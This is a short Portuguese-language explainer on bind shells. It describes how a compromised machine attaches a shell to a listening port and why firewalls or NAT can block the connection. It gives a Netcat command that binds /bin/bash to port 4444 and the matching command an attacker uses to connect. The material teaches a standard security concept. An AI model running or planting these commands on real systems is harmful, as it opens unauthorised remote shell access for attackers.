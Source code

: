 
---

Uma **Bind Shell** (ou shell vinculada) é um tipo de backdoor que permite o controle remoto de um sistema comprometido. Nesse modelo, o servidor comprometido "vincula" uma shell a uma porta específica, aguardando conexões de um cliente remoto. Assim, o atacante pode se conectar ao servidor para controlar o sistema.

### Como funciona?

1. **Servidor (vítima):** Um programa na máquina comprometida abre uma porta TCP/UDP e "vincula" a shell a essa porta. Esse programa atua como servidor, aguardando conexões.
2. **Cliente (atacante):** O atacante se conecta à porta aberta na máquina da vítima usando ferramentas como o Netcat, SSH ou outros programas.
3. **Acesso:** Após a conexão, o atacante obtém uma interface de linha de comando na máquina da vítima.

### Características principais

- **Requer uma porta aberta:** A máquina comprometida deve ter uma porta aberta e acessível para o atacante.
- **Dependente de firewall ou NAT:** Se a máquina comprometida está atrás de um firewall ou NAT, pode ser difícil ou impossível para o atacante estabelecer a conexão.

### Exemplos de uso

- O atacante pode usar um comando como este para iniciar uma Bind Shell com o Netcat:
    
    ```bash
	nc -lvp 4444 -e /bin/bash
```
    
    - `-lvp`: Escuta (listen) na porta especificada (4444) com detalhes (verbose).
    - `-e /bin/bash`: Executa a shell `/bin/bash` quando alguém se conecta.
- Para se conectar do lado do atacante:
    
    ```bash
    nc <IP_da_vítima> 4444
    ```

No Bind Shell a máquina da vítima age como "servidor" e o atacante conecta-se a ela.